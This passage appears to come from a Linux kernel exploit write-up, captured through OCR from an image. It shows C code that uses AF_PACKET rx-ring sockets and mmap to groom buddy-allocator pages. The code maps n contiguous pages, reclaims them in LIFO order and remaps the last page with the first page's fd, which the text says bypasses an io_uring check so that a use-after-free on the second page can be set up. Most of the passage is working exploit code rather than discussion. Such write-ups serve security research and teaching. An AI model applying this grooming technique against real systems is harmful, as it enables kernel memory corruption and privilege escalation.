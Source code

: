 ```c
	int  s  =  socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ALL));

	socket_init_rx_ring(s, block_size, frame_size, block_nr, sizeof_priv,
					timeout);

	struct  sockaddr_ll  sa;
	memset(&sa, 0, sizeof(sa));
	sa.sll_family  =  PF_PACKET;
	sa.sll_protocol  =  htons(ETH_P_ALL);
	sa.sll_ifindex  =  if_nametoindex("lo");
	sa.sll_hatype  =  0;
	sa.sll_pkttype  =  0;
	sa.sll_halen  =  0;

	bind(s, (struct  sockaddr  *)&sa, sizeof(sa));
	return  s;
}
```

To increase the chances of n contiguous pages we will ask for a `block_nr` of n.

Once we mapped to userspace n contiguous unmoveable pages, we actually want to be able to free them singularly (so that we can UAF on the second page).

So the steps are:
- alloc n pages + free them (the allocated pages probably come from an higher order set, what matter is that once freed they end up in the order 0 freelist)
- reclaim them in reverse order (because of the buddy's LIFO policy)
- map last page with the same fd of the first one (in order to elude the check)

```c
void*  mmap_n_contiguous_pages(int  n, void*  addr){
	n--;
	int  fds[n];

	// high chance that it will reclaim a n-order page
	fds[0] =  setup_socket(PAGE_SIZE, 2048, n, 0, 100000);
	mmap(addr, PAGE_SIZE*n, PROT_READ  |  PROT_WRITE, MAP_FIXED  | MAP_SHARED  |  MAP_POPULATE, fds[0], 0);

	// return page to buddy as order-0 -> n contiguous pages on top of the freelist
	close(fds[0]);
	munmap(addr, PAGE_SIZE*n);

	// reclaim them in reverse order because of buddy's LIFO policy
	for (int  i=n-1; i>=0; i--){
		fds[i] =  setup_socket(PAGE_SIZE, 2048, 1, 0, 100000);
		mmap(addr  +  i*PAGE_SIZE, PAGE_SIZE, PROT_READ  |  PROT_WRITE, MAP_FIXED  |  MAP_SHARED  |  MAP_POPULATE, fds[i], 0);
		}

	// first and last page must be mapped to the same physical page: https://github.com/thejh/linux/blob/b219722eaea721e7ddc86aa68bdb864d78c4347b/io_uring/io_uring.c#L2721
	mmap(addr  +  n*PAGE_SIZE, PAGE_SIZE, PROT_READ  |  PROT_WRITE, MAP_FIXED  |  MAP_SHARED  |  MAP_POPULATE, fds[0], 0);

	// close fds to easily return pages to buddy when needed (through munmap)
	for (int  i=0; i<n; i++)
		close(fds[i]);

	return  addr;
}
```
